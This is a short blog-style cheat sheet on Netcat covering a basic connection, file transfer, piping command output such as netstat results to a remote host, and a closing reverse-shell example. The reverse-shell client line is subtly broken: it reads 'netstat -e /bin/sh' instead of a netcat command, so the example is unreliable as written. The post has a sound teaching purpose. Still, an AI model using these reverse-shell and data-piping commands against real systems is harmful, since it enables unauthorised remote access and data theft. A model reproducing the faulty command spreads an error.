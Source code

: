 ```yaml
---
title: Netcat
category: generic
tags: forensics
layout: post
---
```



When working either in forensics, penetration testing, or hacking around in general, Netcat is a vital tool to know.
It's acts as a very thin layer of TCP, converting a network socket into terminal I/O.
A system is set up to listen on a port, and another system connects to that port.
The standard input of one end ends up on the standard output of the other end, and vice versa.
See the [man page](https://www.commandlinux.com/man-page/man1/nc.1.html).

If available, [Ncat](https://nmap.org/ncat/) is generally a more featured version of `nc`.

## Usage
```
nc [-options] hostname port[s] [ports] ... 
nc -l -p port [-options] [hostname] [port]   
```

## Examples
### Basic connection
Connect over port 1337:

Server:
```
$ nc -l -p 1337
```

Client:
```
$ nc server.example.com 1337
```

### Transfer a file
All you have to do for file transfer is redirect stdin/stdout the same way you would for
[Linux]({% post_url linux/2018-04-20-bash %}) or [Windows]({% post_url windows/2018-04-20-cmd %}).

Server:
```
$ nc -l -p 1337 > out-file.txt
```

Client:
```
$ < out-file.txt nc server.example.com 1337
```

### Transferring the output of a command
Use pipes as you normally would.

Server:
```
$ nc -l -p 1337 > netstat-results.txt
```

Client:
```
$ netstat -tualpn | nc server.example.com 1337
```

Pro tip: if you are having trouble reading the output of Linux commands on Windows, it's probably due to line endings.
Don't use Notepad - use Notepad++, Sublime, VSCode, or any other decent editor.

### Opening a reverse shell
While not often done in forensics, understanding how to use a reverse shell is valuable.

Server:
```
$ nc -l -p 1337
```

Client:
```
$ netstat -e /bin/sh server.example.com 1337
```
